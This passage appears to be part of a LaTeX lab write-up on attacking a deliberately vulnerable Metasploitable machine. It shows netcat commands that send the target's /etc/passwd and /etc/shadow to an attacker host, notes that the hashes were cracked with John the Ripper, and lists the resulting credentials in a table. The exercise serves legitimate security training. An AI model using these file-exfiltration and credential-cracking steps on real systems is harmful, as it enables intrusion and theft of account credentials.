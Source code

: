 \begin{enumerate}
    In the folder \texttt{/home/msfadmin/vulnerable}, you can find the configuration files and scripts for some of the applications, some including passwords.\\
    I was only able to find, in \texttt{samba/3.0.6/jduck-build-stuff.tar.gz/samba-common.config}, the pasword \texttt{guest:smbpasswd}.\newline

    On the \texttt{/etc/paswd} and \texttt{/etc/shadow} files you can find most of the passwords of a Linux system.\\
    In order to transfer those files, I used \texttt{netcat -l 9899 > [file]} on the attacker machine and \texttt{nc -w 2 192.168.56.4 9899 < [file]} on the target machine.\newline
    By using JohnTheRipper (the \texttt{$1$} showed MD5 format), I was able to crack the following ones:


    \begin{table}[!h]
        \centering
        \begin{tabular}{|c|c|c|c|}
        \hline
        \textbf{User}     & \textbf{Password}  & \textbf{Program}             & \textbf{Description}     \\ \hline
        \texttt{sys}      & \texttt{batman}    & \texttt{/dev}                &  sys                     \\ \hline
        \texttt{klog}     & \texttt{123456789} & \texttt{/home/klog}          &  -                       \\ \hline
        \texttt{msfadmin} & \texttt{msfadmin}  & \texttt{/home/msfadmin}      & msfadmin                 \\ \hline
        \texttt{postgres} & \texttt{postgres}  & \texttt{/var/lib/postgresql} & PostgreSQL administrator \\ \hline
        \texttt{user}     & \texttt{user}      & \texttt{/home/user}          & just a user 111          \\ \hline
        \texttt{service}  & \texttt{service}   & \texttt{/home/service}       & -                        \\ \hline
        \end{tabular}
    \end{table}

\end{enumerate}